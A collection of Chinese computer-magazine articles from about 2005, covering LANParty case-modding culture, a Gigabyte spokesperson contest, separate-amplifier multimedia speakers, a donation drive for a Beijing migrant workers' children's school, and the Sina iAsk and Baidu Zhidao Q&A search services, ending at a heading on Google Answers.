MOD是什么？其英文全称Modify的解释应为对物品的改造。让本来工业化生产，千人一面的模样变得绝对的个性化，便是热爱改造，热爱DIY的人们所追捧的终极目的，他们所持有的改造一切的精神就是真正的DIY精神。庆幸又有这样一个机会让所有热爱电脑，追求个性化的玩家们发挥他们的创意和想法，而他们以用户身份的各种想法，也无时无刻地影响着这个行业的各个硬件生产厂商，因为最强的硬件只需要花钱就可以买到，最具创意的外观和内涵却是有钱也买不到的，MOD便是追求这份用钱也不能买到的一切。随着菜鸟的成长，MOD也不再是高手的专利，美轮美奂的光影效果背后，无数出色的作品都带着作者们的无数心血和无限的创意，而创意并不是一个纯熟的电脑用户就可以拥有的。

LANParty专门有一个区域外围是拉警戒线的，明黄色和黑色相间的警戒线再清楚不过地告诉来宾，这里是绝对受保护的区域——MOD专区。来自全国14个城市的35名MOD高手云集于此，他们的目的只有一个：将自己最得意的MOD作品展示给大家。很有意思的是，如果不经人专门介绍，我们甚至看不出有些作品是一台电脑。记者目击了他们点亮UV灯、安装水冷散热器、调试音响设备的全过程。现场来宾每一个细小的动作都有可能破坏MOD作品的完整性。因此，记者随获准进入该区域，却也只能远观，甚至连近距离的摄影都是不允许的。这样的一个过程持续了数小时之久，我们也得到了参赛作品的一手资料。

MOD多年来伴随DIY产业逐渐发展成一个重要的组成部分和独特的文化。与我们常理解的装机、超频不同的是，MOD是将很多原材料附加或替换在机箱上。相对于装机和超频，MOD所受到的限制更少，甚至可以说，在不违背物理和化学原则的基础上MOD的空间是无限大的。在硬件产品高度标准化、计算机配件高度集成化的今天，留给玩家的空间是越来越少了，如果你想给你的产品更多的性格和空间，那就拿起你手里的工具，可以确定的是，你手中的计算机绝对不会出现第二台。

早期的MOD就是少数玩家在机箱上加以一定改造和喷图，或在机箱上附加上很多价值昂贵的配件。在很多朋友看来，机箱改造就是靠金钱堆积而成。这个观点在某一方面的确正确，当时的MOD产品尤其能表现出改造者的奢侈之风，但过于追求产品的高价值就偏离了DIY的精神，毕竟DIY以人为本，良好的改造作品更要看作者的改造意图。

而随着玩家对MOD的追求越来越深入，电脑机箱MOD已不再是单单改造机箱那么简单了，随着透明侧板机箱的流行，普通用户也能感受到电脑硬件带来的视觉享受。机箱之内的各种配件和数据线、电源线无一“幸免”，透明发光风扇、束型数据线、UV灯管+UV

软陶制作的机箱表面，灵感来自黑客帝国里面的机器章鱼，形象逼真，可见创作者的艺术修养

线缆、各种散热片等等。其实大部分改造对散热的追求并不过分，真正的目标就是酷和炫，因此机箱MOD始终都脱离不了绚丽多彩的光影效果。除了我们平时知道的UV风扇、UV电源线、UV数据线外，现在就连免螺丝设计的驱动器仓弹簧夹片也设计成了这种风格，看来真是要将UV进行到底！

## LANParty不光是MOD

国内LANParty活动起步较晚，从去年10月份开始至今，由不同机构承办的活动一共只有5次。起初，组织者为吸引媒体的眼球，不得不强调MOD而弱化LANParty其他功能，毕竟MOD玩家们令人眼花缭乱的作品出镜率确实很高。此次活动从区域划分上来看，除主要的MOD区域外，还开设了超频挑战区，电子竞技区等其他区域。但超频选手寥寥，电子竞技选手更加关注于竞技本身，而非冲着LANParty本身的意义而来。这也能从一个侧面反映了国内LANParty活动正处于起步阶段的事实。您也许和我们一样有这样的疑问，既然LANParty根生国外，那么老外们

是如何组织、参与、理解这样的活动的呢？

## LANParty之中外PK

### 区别一 概念理解不同

曾几何时，遍及全球的DIY精神在中国本土得到了异化，DIY本意为自己动手，完成作品。但中国的硬件发烧友却更加关注如何便宜的购买到硬件，追求最佳性价比的配置，这与真实的DIY精神有所背离。国外PC整机价格远低于组装机，而玩家为了追求个性化，纷纷走向了DIY之路，在追求搭配配置的同时，欧美玩家追求针对硬件成品的手工改造，在此基础上，逐步发展出Case MOD（即机箱改造）。这股风潮快速席卷了全球，在它如火如荼发展之际，热衷此道的玩家集合在一起，举办了自己的局域网聚会，暨为“LANParty”。在国外玩家心目中具有崇高地位的LANParty究竟是什么？举例来说，一名在论坛里具有很高号召力的玩家，在各大论坛发布消息，公布活动的时间地点，要求参与玩家购买门票入场，并自备食宿，或针对某一游戏主题，或完全为了Party而LAN。大家大多开车前往，背上睡袋和饮食，到现场购买入场券入场。

### 区别二 组织形式不同

国外的LANParty一般都由玩家自己或是玩家联盟组织活动，可以是十几人的小型派对，也可以是上千人的大型盛会，游戏竞技、超频比赛、MOD改造等内容不一而足。活动场地可以是自家的车库、地下室，也可以是

体育馆、公园等等。玩家不光可以玩游戏、展示MOD作品、交流经验，连吃饭、睡觉也在LANParty中度过，当然也是一个绝佳的交友场所，良好的交流性、开放性吸引了无数的发烧友。在国内，活动更多是由厂商组织，久而久之就变成商业性质浓厚的SHOW，不但参加的人数在远不能和国外相比，内容也比较单一，除了电子竞技、超频比赛以外似乎没有更新鲜的东西。因而也难以激起玩家的参与热情。此外过多的商业展示也使得这些玩家聚会活动的交流性、开放性受到很大损失。看来中国也需要有一个自己的LANParty玩家组织，让玩家自己组织举办完全开放的，具有良好交流性分享性的LANParty活动，才能吸引更多的人参加到其中。所幸CLPA（中国LANParty玩家联盟）成立了，玩家们还拥有国内第一个以LANParty文化为依托的hiLANParty.com论坛，聚集了众多知名的MOD、超频、电子竞技高手的玩家联盟。

### 区别三 聚会环境不同

在国外，有多少稀奇古怪的想法和发明都是从家庭中的车库、地下室、后院中诞生的，这里当然也是小型LANParty的聚会场所。这样的条件在国内并不具备。小型聚会举行只能选择在公共场合。在汽车工业发达的城市，玩家可以随时带着自己的PC去参加LANParty，而中国幅员辽阔，假如新疆的玩家要带上PC到北京来参加LANParty，任务艰巨啊！即使是同城小型派对，又有多少玩家愿意带上PC去参加LANParty呢？环境与交通的因素在一定程度上阻碍了LANParty的兴盛。国内如果要让大家集合在一起必须依靠CLPA这样的玩家组织，通过组织的力量整合大家的资源，才能保证聚会的成功和自主性。

### 区别四 经济水平不同

热衷DIY和游戏的国内玩家基本都在15～35岁之间，他们有多少经济能力承担诸如举行LANParty的地点、便利的交通、食宿等等所有参加LANParty所需要的费用？而相对需要较高动手超频、MOD改造等DIY行为所需要的材料及工具更是一笔不小的费用。这些对国外玩家来说，参加LANParty的成本和DIY动手自做的成本相对要低很多。相对于国外流行的MOD已经形成了比较完整的产业链，MOD工具和材料的成本的拥有成本较低，而国内这些东西采购成本不低，况且很多精密工具以及加工服务都难以找到。

## 走中国特色的LANParty之路

国内LANParty之所以还不能成规模地发展，问题还不仅仅在玩家的经济基础问题，更重要的一个环境的问题。国际上的玩家可以几十人甚至千个人租用一台车床（如德国空军基地万人LANParty），可以成百人一起购买一种五金材料，这大大降低了其成本，也大大提高了他们把自己的思想、概念付诸实施的成功率。现在对国内DIY行业来说传播正确的概念和增强组织是当务之急。只有有效地将具有DIY精神的人都整合起来，才能将DIY者的行为上升到促进产业发展的高度。以现在国内的大环境来说，爱好者DIY的行为和攒机商无异，更谈不上技术含量。从鼓励创新的意义上说，这不免影响个体的创新意识。当每个DIY的创新意识被磨灭，国内IT产业的发展还会有质的飞跃吗？不管怎样，LANParty已经开始在国内起步，关注的玩家正在增多，并且有了自己的LANParty玩家组织，随着国内生活水平的不断提高，我们相信会有越来越多的玩家会参与到LANParty中，体验LANParty的魅力，享受LANParty参与者们开放、交流、分享的生活方式。

（本刊编辑部）

## 用“心”打造快乐行“篇”

今年选秀特别多，全国范围内的选秀活动，就有湖南卫视主办的“超级女声”和中央电视台举办的“梦想中国”两个，更别提各地区举办的规模大小不一的选秀活动，“忽如一夜春风来，千树万树梨花开”。如此这般席卷全国的选秀活动，必然引起了全社会的注意，各方评论也不一。有人欢呼这是平民对精英的胜利，有人批评这是一场庸俗的造星运动。

对于“超级女声”、“梦想中国”等类似的选秀娱乐节目，无论是褒扬还是批评，谁也不能忽视这样一个全民娱乐现象的存在，可能在比较长的时间内，它们会作为一个典型研究范本和一个社会文化形象引起我们的思考。学者喻国明认为：在大众文化占主导地位的情况之下，我们必须用兼容的、宽容的态度去对待一些文化现象。

## 除了搞怪，还有优雅

我们看到了这样的情形，有人唱歌唱不上高音突然跪在地上的，有人拿了一大堆呼啦圈当道具，一出现，评委直往桌子下面钻……于是，这激发了更多选手更加离奇的举动，而观看的观众也与日俱增。参赛选手为了能一炮走红，使出了让观众捧腹大笑的小把戏，为让评委留下深刻印象而穿的奇装异服层出不穷。能不能进入下一轮不要紧，但只要出现在观众面前，一定要让你忘不掉。

选手很张狂，评委也不是省油的灯。“你唱得像幽灵一样”、“别吓着后面的选手了”、“别人唱歌是偶尔跑调，你唱歌是偶尔不跑调”。这些是好事者整理出来的评委的经典语录。于是乎，评委越残酷、越讥讽，选手更加出洋相，而观众越爱看，看的是选手的“出丑”，看的是评委又会冒出什么惊人之语，而选手又会出什么惊人之举。选秀活动中出现的一些搞怪甚至离奇的现象给批评者以靶子。

除惊人之语和惊人之举，难道就没有更好的方式可以把选秀节目做得更好了吗？比如，选手们不仅要有美丽的外形，更要有出类拔萃的才艺表现和丰富的内涵。技嘉科技公司历时两个月，旨在寻找集个性、智慧、美丽于一身的技嘉科技形象代言人——“芯”动女孩总决赛，在这方面做出了尝试。

为保证评选的全面、公平与公正，主办方不仅邀请了当红的电视节目主持人安琥担当大赛主持，现场对选手进行提问，以考察她们的应变能力。同时还邀请了包括娱乐公司的签约歌手和获世界超模大赛十佳称号的名模等人作为评委，从专业化的角度对选手的表现做出综合评定。

决赛将30名选手分成5组同台献艺，每组成员将歌唱、跳舞及器乐等不同类型表演穿插其中，最终以一个完整的节目形态将才艺表演和推介技嘉很好地融合。30名选手大方得体的举止，展现她们多才多艺的一面，证明如果去除了搞怪，用优雅也能够给评委和现场观众带来好感。评委王小姐在评价此次比赛选手的表现时，认为每一个选手都很出色，她们表现出来的整体素质比她参加过其他的选秀活动的选手要高出很多。

## 走下舞台，认真生活

很多人渴望出名，渴望做明星，这个没错。去年，一个15岁小女孩张含韵得了“超级女声”季军，从名不见经传变得炙手可热。但对于绝大多数参加选秀活动的选手来说，从丑小鸭变成白天鹅的可能性是微乎其微的。一个没有门槛的选秀活动充满了一朝成名的诱惑，但它更是一个可望而不可即的海市蜃楼而已。

记者在比赛后采访一个落选的女选手，一名外地的在校大学生，她告诉记者，她对自己这次最终没有取得好名次并不感到遗憾，对于她来说，能有机会站在最后总决赛的舞台上就是胜利。她还告诉记者，通过前后两个月的比赛，她对社会认识了更多，也对自己认识了很多，比赛的最大意义是“从舞台下来，进入课堂，我开始明白自己的生活中真正需要什么”。

社会是一个舞台，但人生并不是在演戏。在舞台上，迅速成名的她们可以疯狂到忘乎所以，所有人都可以无视你这种疯狂，但是有没有想到，当烟花散去，当掌声消退，那些曾经在万人中央的人一定就“我的未来不是梦”了？此前，备受争议的超女们被迫和经纪公司签合同就很清楚地表明了她们未来将被经纪公司所控制。

戏剧家莫里哀曾经妙问：“你笑谁？笑你自己。”当我们以一种冷静的眼光看着这一切，发现在这个躁动不安和功利主义盛行的时代里，我们仍然需要十年磨一剑。

> （新闻采访部记者 鲍有斌）

## 十年变革 “X.1+1” 音箱能否崛起 PC 多媒体

PC在变革，从软盘时代的终结可以看出；PC在发展，从LCD全面取代CRT的趋势可以得出结论；PC在跳跃，是DVD刻录平民化的那一刻就注定了的。但是，作为桌面上的摆设也好，作为多媒体技术的重要组成部分也罢，谁能从多媒体音箱的变化看出PC变革的翻天覆地呢？以前不能并不代表现在也不能。敏锐的消费者会发现，一种称之为“X.1+1”的独立功放的多媒体音箱的出现犹如“小荷才露尖尖角”，但革命也许就隐藏于无形的变化之中。多媒体音箱进入“X.1+1”时代，将给我们的消费带来哪些启示？假如这样的变革真的会发生，又会给目前的消费类产品市场带来哪些新的格局？我们还是擦亮眼睛，谨慎看待多媒体音箱行业的变革吧。

## “X.1+1”是什么？

在你的印象当中，多媒体音箱长什么样？多数人见过两支箱体分别码放于显示器两边的，此类称为2.0系统。也有除了这两支箱体外，在桌子下面放一个独立的低音炮（低音单元）的，此类称为2.1系统。推而广之，X.1系统只不过是在箱体（你也可以狭义的理解为喇叭）的数量上不同而已，5.1系统在音箱正确码放后就是比2.1系统增加了环境音效的功能而以，比如在看大片时，发生位移的子弹划破空气的声音会被还原到各个不同位置的箱体里，让你有身临其境的感觉。那么，X.1+1又该如何理解呢？

简单地说，它就是在原来“X.1”系统独立低音单元的基础上，将音箱的功放设备也独立出来。消费者所买到的2.1+1系统不再是两支小音箱加上低音炮，而是增加了立于电脑桌面可控制的功放单元。多媒体音箱行业为何在沉浸了十年之后，要将这样一个单元独立出来呢？

与传统多媒体音箱相比，独立功放无疑具有更大优势。传统的内置功放多媒体音箱的变压器、滤波电解电容、末级功放管散热片的尺寸由于受到音箱尺寸的限制，其额定功率不可能做的很大，这直接影响了音箱在音质上的表现。独立功放通过将功放部分从箱体里独立出来，给音箱腾出了更大的空间，有效避免了这些条件的束缚，同时也使功放本身的性能及技术得到质的提升。另外，功放作为音箱的“散热大户”，将其独立出来不仅使音箱不再受到功放电路的干扰，避免因功放发热和箱体振动而产生的影响，有效改善声场，提升低音效果；同时，箱体能始终保持在恒定的温度下工作，更好地保护电路，对于减少音质干扰和提高音箱使用寿命都有积极意义；此外，传统的功放内置式音响系统，因喇叭的漏磁及散磁情况也影响了功放的变压器，并随着音源频率的变化负面影响了IC电路的前置放大器部分，导致功放失真度明显提高，对音质产生了严重影响，而将功放部分独立出来后就全面解决了这些问题。

X.1+1系统的诸多优势是在功放单元被独立出来以后被人有意总结出来引导消费者的，还是说，它的出现真的预示着多媒体音箱变革的临近呢？如果是水到渠成，你也许会问，为什么在十年前设计者们推出PC多媒体音箱时，不如此做呢？十年后的变故究竟是个别厂商的市场行为，还是消费者某种消费行为的改变所推动的呢？这一切问题的答案也许从目前音箱市场的一些变化规律可以略知一二。

## 十年之变源于三大趋势

第一，传统音箱市场大幅下滑已成为不争的事实。当全球音频标准的制定者之一创新的技术总监沈万福博士说出了“Hi-Fi is over”时，我们不得不思考下一个问题，只有富人和专业人士才可以享受的动辄数万元的Hi-Fi音箱已经退出了历史舞台，PC多媒体音箱何去何从呢？

我们发现：2001年，液晶显示器市场竞争进入白热化，三星凭借技术研发和产能的巨大优势，高举降价大旗，无非是希望通过价格战来净化市场竞争环境；2002年，电视机行业绷不住了，在行业协会、产业联盟调节无效的情况下；各家比着赛着试水消费者心目中的价格底线，并最终导致优势资源集中到为数不多的大厂手中；2004年，华硕凭借一线大厂的优势一举将主板价格拉到低谷，并一度出现小厂与大厂在产业联盟会议上对骂的特殊情况。相比之下，音箱市场的变化已经在小范围地缓慢地开始了。三诺是第一个站出来喊多媒体音箱该洗牌了的一线厂商。那么，到底有没有人站出来“叫板”漫步者的霸主地位呢？

第二，多媒体音箱品牌高度分散，产品良莠不齐。也难怪三诺绷不住劲儿了，常务副总辛利军对记者解释这样一种怪现象：“同样售价在百元左右的多媒体音箱，有的品牌成本不到20元，甚至更低！但和正品音箱相比，这样的假冒伪劣产品销量也没差到哪儿去。”行业平均利润率不到20%和某些品牌利润率高达30%相比，多媒体音箱市场之变在所难免，因为行业利润率趋同是一个大的趋势。当销量排名的老二和老三联合起来改变游戏规则的时候，让出既得利益，也许是坐久了头把交椅的漫步者不得不做的。

第三，多媒体音箱风起云涌，大有群雄逐鹿中原之势。同行业近乎30%的毛利率让50多个厂家将眼光短期内聚焦多媒体音箱行业。然而，类比其他行业相似的竞争阶段，我们发现消费电子产品高速增长是多媒体音箱发展的动力之源。从2003年开始，消费类电子产品迎来了前所未有的繁荣景象，以笔记本电脑、随身媒体播放器、DC/DV为核心的消费类电子产品成为整个IT消费类市场的绝对主流。业界普遍预估2005年全球笔记本电脑市场出货总量至少约在5600万~5700万台。相较2004年的4700万~4800万台增长15~20%，而中国笔记本市场增长将达23%以上。同时，MP3播放器和MP4电影播放器更是被国内众多厂商所看重，它们认为相对国内9000万的PC保有量和1亿以上的网民，MP3甚至MP4的市场保有量还远小于这个数字。显然，MP3厂商所期望的市场保有量也不会低于千万级。面对这两个千万级保有量的市场，多媒体音箱是不是可以抓住这个机会？聪明的参与者已经开始巧妙地给消费者煽风点火了。

## 需求变化终致市场洗牌

说到这儿，你也许会觉得多媒体音箱之变与我何干？但你是否想过，正是你消费行为的变化，正是消费者需求的变化，才能导致多媒体音箱市场的重新洗牌。

为了避免电视机市场残酷竞争的悲剧重演，以三诺为代表的多媒体音箱厂商已经开始动手给消费以引导了，并同时抢先占据未来一段时间市场竞争的有力地形。三诺的杀手锏就是刚刚上市的iFi-331，即具有独立功放单元的多媒体音箱。

当iPod、MP3已经成为年轻人的必备，谁能完美地将流行趋势与自己的产品融合，谁就能稳操市场的胜券，这已成为商业竞争潜规则。三诺是第一个站出来主动推广独立功放概念的，独立功放系统除了前面我们讲过的技术上的优势外，最大的便利之处无异于将控制单元放在了电脑桌上，并提供第二个独立音频输入等人性化功能，这无疑是给MP3爱好者提供了随时随地方便接入，即开即享受的消费乐趣。

对于价格的把脉，三诺的副总辛利军告诉记者：“经过我们的市场调查，同类产品如果增加50元，消费者就愿意为独立功放的系统买单。”

面对市场上的没有直接打广告就出现的其他品牌的独立功放系统，三诺人显然早有自己的判断。也许行业舵手掉头总是缓慢的，在行业开始推LCD的时候，显示器巨头三星不也是推迟一年后才正式进入LCD市场的吗；也许是传统多媒体音箱的量产给行业舵手带来的利润是巨大的；也许已经杀出重围，稳坐第一的漫步者品牌的姿态较高；太多的也许让我们难以判断，“X.1+1”系统的出现到底能否崛起PC多媒体？

（新闻采访部 张健）

## 蒲公英中学是一个有益的尝试

位于北京大兴区西红柿镇团河路的“蒲公英”打工子弟中学，为致力于解决打工者子女受教育难这个社会问题而诞生。这是北京市第一所、也是目前仅有的一所由政府相关部门支持、专门为农民工子女创办的中学。学校紧挨着马路，围墙外南来北往的车辆不时发出刺耳的喇叭声，刚开始这些噪音会让正在上课的师生走神，但几天下来，师生们均已习惯了嘈杂的环境。

8月31日上午，蒲公英中学举行了简短的开学典礼仪式。当校长郑洪宣布学校正式开学的那一刻，她的心情澎湃不已。这一天的到来太不容易了，她和她的同事们经过几个月的努力，才让这所中学进入正常运作阶段。尽管学校还有很多棘手问题等待郑校长和她的同事们去处理，但看到台下坐着的那些充满对知识的渴望的学生，她知道，为了这些孩子，付出再多也值得。

## 学校：再拉一条ADSL专线

蒲公英中学教学资质得到当地教委的肯定。从初中教育开始起步，未来还要办高中部和职业教育部。第一批学生分别就读于初一和初二两个年级，初一年级四个班，初二年级两个班。

学校现在有一条ADSL专线接到教师办公室，但学校还想再装一条专线到机房，然后把机房建成局域网，使机房的所有电脑都能上网。这样，一来可以解决所有老师在办公室只用一台电脑上网的难题，更重要的是，让所有学生都有上网学习的机会。郑校长告诉记者，学校条件确实简陋，但他们想方设法创造各种条件，使学生不会被先进的科技文明成果拉下更远的距离。

学校很多设备来自社会的捐赠。当当网捐来了一批书，清华同方捐了一批长风PC。社会的捐助使他们解决了最基本的教学条件，但学校的老师们除了在解决教学环境中做出努力外，为学生想得更多。学校希望出现一支志愿者队伍，构成是大学生或高中生，和学生结成“一帮一”的对子，成为他们的“知心朋友”。这里的学生多数没去过天安门，老师们想，如果有大客车在周末把学生带到天安门前参观，接受爱国主义教育，把他们带到博物馆，让他们接受科普教育，这些行动对学生的全面发展意义多么重大啊！

学校还受到了国外一些社会团体的关注。今年8月2日，美国的一个20多人组成的教师代表团参观了他们的学校。他们会捐助给该中学教学用的物资，也将会从美国组织一些志愿者，给学生直接授课。

2005年10月31日下午，在北京大兴区蒲公英中学举行了“助教献爱心捐赠”暨“电脑爱好者志愿者服务队”成立活动。出席这次活动的有共青团北京市委社工部姜泽廷部长，北京《电脑爱好者》杂志社社长陈梅，夏普公司的代表以及参与捐赠的十家刊社代表和“蒲公英”打工子弟中学的师生。

在共青团北京市委和北京《电脑爱好者》杂志社合作举办的公益活动中，共有北京大学、清华大学等20余所大学，《电脑爱好者》、《时尚》等10多家媒体，夏普等多家厂商参与。此次活动募集到上万册图书和投影机等教学设备，为改善学校的教学环境起到了很好的推动作用。记者先后三次来到这所学校采访，和老师们交流，和学生们座谈。记者也深入到各大学捐赠现场，和其他参与进来的厂商和刊社沟通，深切地感受到社会各方为蒲公英中学所做出的努力。

## “蒲公英”在爱心下成长

那些孩子很单纯，在记者去参观他们教室的时候，一个学生很有礼貌地主动用普通话和记者打招呼：“老师，您好！”她把记者当成一个来学校参观交流的老师了。

第一批就学的250名学生中，家庭境况参差不齐。对于家境极其贫困的学生，学校免除部分甚至全部学杂费。陈秀峰同学来自湖北，家有五口人。在老家就读高中二年级的哥哥，每年需要五千余元，姥姥年逾古稀，母亲有严重的胃病，家中只有依靠她父亲在北京种菜维持生计。学校为了不使她失去读书的机会，为她免掉书费、住宿费，还减掉部分学费和餐费。在不久举行的入校摸底测验中，陈秀峰同学成绩中上，她告诉记者，要更加努力学习，不辜负学校和社会给她的学习机会。

他们还说，他们喜欢在学校和这么多同龄人在一起生活。当记者问他们以后想读大学吗？几乎所有的学生都沉默了。这或许对他们来说是一件很遥远的事情。而据记者了解，他们的家长大多只是想给孩子找个环境稍微好一点的地方待着，“不要出事就好”。大学，甚至连高中，都是家长和学生没有想过的事情。

## 老师：计算机老师和语文老师组成“联合舰队”

校长郑洪博士，曾经以访问学者身份在美国学习过几年，全面主持学校的日常工作，她对记者说，她要在这个学校干到退休；书记王宝才老师，从事教育几十年，教学和政工经验很丰富，在学校里主管政工；副校长兼教务主任胡淑英老师，不到40岁，主管教学，已经在教育战线工作了18年。

郑校长告诉记者，她曾在北京一所打工子弟学校做过志愿者，知道那些投资打工学校的商人究竟怎么操作。在一些比较小的打工子弟学校，教师大多是办学者的亲戚、同乡。而这些教师大多都没有教育经验，部分是半路出家临时操起教鞭的，因此流动性也相当大。这些打工子弟学校的教师中存在着大量门外汉，教学质量当然不可避免要受到影响。要招到并留住较高素质的人才，就要提高教师工资，而提高教师工资又减少了办学者的利润。对办学者来说，利润是第一位的，教师的好坏无关紧要，况且就学的是小学生，于是就更不关心教学质量。

该校的计算机老师刚从一所大学毕业，他负责机房所有电脑的维护，还有学校网站的建设，任务很重。这批学生中很多基本汉语拼音还没掌握，而英语基础更是比较薄弱，在入学的摸底考试中，考上30分的就算不错了。很多学生根本不知道什么叫“音标”，这给老师们的授课带来了巨大挑战。计算机课需要练习打字，他们想出了这样一个办法：计算机老师和语文老师一起上课，一边教他们操作计算机，一边教他们拼音。

## 学生：“这里的情况好多了”

在记者看来，这里的办学条件十分简陋。记者和8个来自全国不同省份的学生座谈时，他们中最大的14岁，小的12岁，却异口同声地对记者说：“这里的情况好多了！”

这真让记者感到意外。接着，记者问他们为什么会感到“好多了”。在他们争先恐后的表达中，记者大概知道他们以前各自求学学校的情况：同学中很多人抽烟、喝酒甚至还打人；上课老师很容易发火，而且水平不高；伙食很差；冬天，屋里暖气的温度比较低，感到冷……

## 电脑爱好者志愿者服务队开始行动

在10月31日的活动中，北京市IT行业中的第一个志愿者服务组织——电脑爱好者志愿者服务队也宣布正式成立。这个组织是以社会公开招募为手段，以一批有志于公益事业的IT从业人员和青年学生为主体，将在共青团北京市委的领导、北京《电脑爱好者》杂志社的具体管理下长期开展公益活动，并不断壮大队伍，吸引IT行业中有志于志愿服务事业的青年人加入组织。志愿者组织这一公益活动的载体，是提高公民道德修养，服务弱势人群，构建和谐社会的有效阵地。

电脑爱好者志愿者服务队由IT领域内的工程技术人员、管理人员、媒体工作者，以及高校大学生等构成，他们受到过良好的职业教育和专业教育，掌握丰富的IT知识，熟悉IT领域内最新进展，他们将会为包括蒲公英中学在内的全社会的弱势群体提供帮助。

电脑爱好者志愿者服务队开展的“捐书校园行”活动于今年9月拉开帷幕。“捐书校园行”活动先后来到北京大学、中国政法大学、北京科技大学、对外经贸大学等20多所大学。截至到10月28日，本次活动共募集到各类图书1万余册，为蒲公英中学图书馆充实了很多书籍。与此同时，不少厂商也主动加入到这个活动中来，其中夏普公司为该校捐助了教学用投影机等教学设备。

## “捐书校园行”看到学子拳拳之心

从今年9月开始的“捐书校园行”活动，在北京市的大学生群体中产生了良好的反响，一本图书的捐赠虽小，但爱心的传递却能够净化每个参与者的心灵。

在捐书过程中，记者感受到当代高校的学子对于此次活动的热心，在现场采访前来捐书的同学时，他们纷纷表示：通过这种方式把书送到蒲公英中学手中，可以让书发挥更大的作用，比把旧书卖掉更有意义，而且还能通过交换得到自己喜欢看的杂志，他们还希望这样的活动能经常出现在他们的校园里。在第一阶段捐书活动中发生的点滴小事，不断地感染着募捐现场的工作人员。北京科技大学一位女研究生把她上大学以来收集到的《读书》杂志全部捐了出来；北京大学团委社团文体部李媛媛等同学在捐书现场，反复向过往的学生散发传单，并解释此次活动的目的；对外经贸大学的一位女同学对记者表示，她要报名参加志愿者组织，为蒲公英中学的学生上课；北京大学两位教师用小车拉来一车书，大部分书籍还是崭新的。通过第一阶段募捐活动，我们收集到大量书籍，有习题集，有中学生作文选，有安徒生童话故事，还有计算机教材、英文学习资料、新华字典、英语字典等书籍。本次活动得到了各大学团委和学生会的大力支持，参加此次“捐书校园行”的单位还有《女友》，《时尚》，《中国体育报》，《无线电》，《汽车之友》，《摩托车》，《世界知识》以及《英语世界》等十多家媒体。在《电脑爱好者》杂志社努力下，从北京各大学募捐到的书籍，和杂志社员工自己捐赠的书籍都用来充实蒲公英中学的图书馆。共青团北京市委也组织了一批体育器材，捐给该校。同时《电脑爱好者》杂志社将连同北京团市委组织多批志愿者，不间断地为该校服务，给该校的老师和学生传授电脑知识和其他科学知识。组织这次爱心捐赠活动的北京《电脑爱好者》杂志社就是这样一家有社会责任感的媒体。在共青团北京市委的指导和协调下，我社全程主办了这次公益活动，并且完成了“电脑爱好者志愿者服务队”的组建工作，为创建和谐社会迈出了踏实的一步。记者每一次来到这所学校，都能感受到学校发生的显著变化，蒲公英中学已经迈出了坚实的第一步，为了让她更好更健康地成长，需要大家做出更多的努力。电脑爱好者志愿者服务队的工作将长期进行，务实成为他们共同的作风，所关注的领域也将扩展到培训，包括蒲公英中学在内的全社会需要帮助的教师的计算机课程培训，学生直接授课，和设备维护等。同时，IT志愿者服务队也面向全社会招募，欢迎那些有志于IT志愿服务的各界人士参加。“众人拾柴火焰高”，因为我们相信，如果每个人都能献上一份爱心，这个世界将会变得更美好。

（新闻采访部记者 鲍有斌）

## 搜索无小事，从业须谨慎

玩搜索引擎如同经营婚姻，门外的人，都想进来，因为看到的是百度上市圈钱，Google股价飙升的奇迹；屋里的人，总想出去，哪怕找点感官刺激也行啊。此话怎讲？也许新浪和百度最有发言权了。

### 新浪怎么‘爱问’百度‘知道’什么

2005年11月8日，百度正式发布‘知道’，加上此前新浪发布的‘爱问’，两只中国互联网的领头羊将目光投向了基于搜索的互动式知识问答分享平台，这难道仅仅是一种巧合？‘知道’和‘爱问’虽然各为其主，却掩盖不住它们惊人相似的市场定位、操作方式和激励机制。既然不是巧合，新浪和百度带给我们‘获得知识的快乐’的同时，他们的动力之源何在呢？无论在哪个平台上，我们都想问上一句：新浪为何爱问，百度又知道什么呢？

### 新浪怎么‘爱问’

在国内，要说众多搜索引擎中变化最大的应该是新浪推出的‘爱问’搜索（www.iask.com）了，它采用提问方式，利用新浪网民众多的优势，让网民来回答你的问题。还可以通过网页收藏的方式，看看自己感兴趣的信息别人有什么看法。在网友问答的知识库里面积累了几百万条的知识问答。

例如，用户在首页上提出‘感冒吃什么药？’进行搜索，这时页面右方就出现从知识库导出相关问题的答案，如‘感冒吃什么药好的最快’、‘感冒应该怎么做’，甚至‘狗得了感冒应该怎么办’这些答案。但如果不满意这些答案，比如把问题改成‘我经常感冒怎么办’，则这个问题被提交上去，等别的网友来的回答。在这里，新浪应用了自动分类的技术，如果用户问的是‘感冒吃什么药？’这时系统自动推荐一个分类，可以把它放到‘健康与医学/疾病感冒’里面，或者放到‘医疗问题/内科’里面。然后用户把问题提交上去，来等待其他网友的回答。

准确地说，完成用户知识问答的平台是‘爱问’的一个栏目，叫爱问知识人。因为‘爱问’知识人的用户已经很多，当用户越来越多，平台越来越大，一个问题提交上去的时候，获得感兴趣并且有这方面知识的人来回答的机会就会越来越高。新浪表示，由于汇聚了众多的网民，目前百分之八十的问题，在二十四小时之内都会有人回答。

新浪从来都不是一个高技术公司，虽然CEO汪延号称三、五年后爱问要成为中国第一的搜索引擎，但以新浪的技术含量，想去超过雅虎、Google与百度实在不简单。而论搜索功能，新浪不如百度。但要论这个问答平台，新浪未必不如百度。新浪的杀手锏是将平台与邮箱捆绑，可以直接将答案发送到你的邮箱，而百度就不行，你必须去登录，才能看到别人的回答，这是“百度知道”的一个硬伤，大家不至于每天都为了查看答案而去登录。

### 百度‘知道’什么

11月8日，百度正式推出了‘百度知道’（zhidao.baidu.com）这个类似于爱问的问答式搜索引擎，在国内搜索行业中排名老大的百度在这次互动搜索的竞争中却落了个后手。从百度知道的首页来看，与爱问并无二致，但还略显单薄。我们认为这与百度和新浪的定位差别有关，新浪本身就汇聚了几千万的注册网民，在新浪上可以交流、游戏，这些网民已经养成了一个互动的习惯。而百度可以说没有一个注册网民，它的访问者只是过客，搜索完了就走了。培养网民的粘性和忠诚度成为了百度最为头疼的两件大事。

问题搜索的价值在于一个问答平台，而非真正的问题搜索，如果一家的搜索技术可以达到回答网民问题的时候，估计也就早超过Google了，因此，如何推广这个平台，让网民来使用这个平台才是关键，毕竟大家不去你那里提问，不去你那里回答，你的问题搜索就等于不存在，而百度在新闻发布会上竟然号称“如果发展状况好的话，‘百度知道’将考虑收费。”百度连被起诉的MP3搜索都号称不去搞收费下载，为什么偏偏要在这个百度知道上收费？在前有新浪爱问免费的情况下，你现在就过早宣布收费时机是否成熟？这个宣言是否过于幼稚了？也许百度在向Google取经吧，因为类似平台Google Answers就采用了收费的机制。

### Google Answers:圈钱才是硬道理

